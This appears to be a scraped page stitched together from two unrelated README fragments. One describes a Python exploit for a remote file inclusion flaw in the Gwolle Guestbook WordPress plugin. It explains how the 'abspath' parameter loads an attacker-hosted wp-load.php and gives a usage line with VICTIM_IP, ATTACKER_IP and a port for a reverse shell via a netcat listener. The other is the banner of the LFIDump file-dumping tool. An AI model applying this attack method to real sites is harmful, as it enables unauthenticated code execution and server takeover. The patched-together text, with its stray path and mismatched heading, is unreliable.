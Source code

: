 

------------------------------------------------------------------------------------------------------

# Advanced FLI Attacks


<h1>Gwolle Guestbook WordPress Plugin RFI Exploit</h1>

<p>This Python script exploits a critical Remote File Inclusion (RFI) vulnerability in the Gwolle Guestbook WordPress Plugin, which can be exploited by a non-authenticated attacker to include a remote PHP file and execute arbitrary code on the vulnerable system.</p>

<h2>Vulnerability Details</h2>

<p>HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from an arbitrary remote server and execute its content on the vulnerable web server. In order to do so, the attacker needs to place a malicious 'wp-load.php' file into their server document root and include the server's URL into the request.</p>

<p>Successful exploitation of this vulnerability can lead to the compromise of the entire WordPress installation, and may even lead to the entire web server's compromise.</p>

<h2>Usage</h2>

<p>The script requires three arguments:</p>

<ul>
  <li>Target URL: The URL of the vulnerable WordPress installation.</li>
  <li>Attacker host: The IP address or hostname of the attacker's machine.</li>
  <li>Attacker port: The port number where the attacker is listening for a reverse shell.</li>
</ul>

<p>Example:</p>

<pre><code>python3 exploit.py VICTIM_IP/WORDPRESS ATTACKER_IP ATTACKER_PORT</code></pre>

<p>Note: You need to have a netcat listener open on the attacker machine on the specified port.</p>

<h2>Disclaimer</h2>

<p>This script is provided for educational purposes only. The author is not responsible for any damages caused by the misuse of this script.</p>



![](./.github/banner.png)

<p align="center">
    A simple python script to dump remote files through a local file read or local file inclusion web vulnerability.
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/LFIDump">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
    <br>
</p>
